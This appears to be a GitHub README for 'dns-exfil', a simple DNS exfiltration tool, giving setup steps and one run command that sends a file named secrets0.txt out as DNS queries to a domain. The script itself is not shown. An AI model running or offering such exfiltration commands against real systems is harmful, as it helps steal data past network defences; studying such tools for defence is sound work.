 # dns-exfil
A simple DNS exfiltration script.


## Installation
1. `git clone https://github.com/rybolov/dns-exfil.git`
2. `python3 -m venv ./venv`
3. `source ./venv/bin/activate`
4. `pip3 install -r requirements.txt`
4. `python3 ./main.py --file secrets0.txt --type A --domain google.com` 
5. Enjoy
